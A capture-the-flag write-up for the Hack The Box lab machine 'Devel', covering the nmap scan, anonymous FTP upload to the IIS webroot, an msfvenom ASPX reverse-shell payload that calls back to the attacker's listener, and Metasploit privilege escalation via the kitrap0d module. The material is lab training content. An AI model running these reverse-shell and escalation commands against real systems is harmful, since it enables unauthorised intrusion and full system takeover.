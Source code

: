 # Devel

This is the write-up for a machine called Devel. 

## Scanning & Enumeration

Let's start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.5
```

Relevant results of the scan: 

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP

FTP anonymous login is allowed and we find the files **welcome.png** and **iisstart.htm**.

## HTTP

The HTTP port is open and a web server is running on the machine. The web server is IIS as seen in the exposed http-server-header.
The **welcome.png** is an image on the web page and **iisstart.htm** is the index file and both of these services have root privileges.
We can upload something, say, an image or an exploit on the FTP server and we can access it on the web server.
IIS 7.5 servers support ASP and ASPX type files so we will use that format to execute our exploit.

## Creating and executing a payload using msfvenom 

We can create a payload with **msfvenom** and upload the exploit **"exploit.aspx"** file to the FTP server:

```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST= <your_ip> LPORT=4444 -f aspx -o shell.aspx > exploit.aspx
```

We have a file called exploit.aspx that we will upload to the FTP.

Load **Metasploit** and set up your listener:

```markdown
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```
After you run exploit, it will wait for a connection. Browse to http://10.10.10.5/exploit.aspx to activate the listener. We will get a meterpreter session on the machine. 
We are user **IIS Apppool\Web** on the machine and we want to escalate our privileges by exploiting any vulnerabilities.

## Privilege Escalation using Metasploit

We will use the Metasploit module **post/multi/recon/local_exploit_suggester** to identify any vulnerabilities:

```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

This will list down the different modules to which the target machine is vulnerable to. We will use **exploit/windows/local/ms10_015_kitrap0d**:

```markdown
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set LHOST <your_ip>
set LPORT 4445
run
```

We will have a new meterpreter session with escalated priveleges and we will be **NT Authority\SYSTEM** on the machine. 
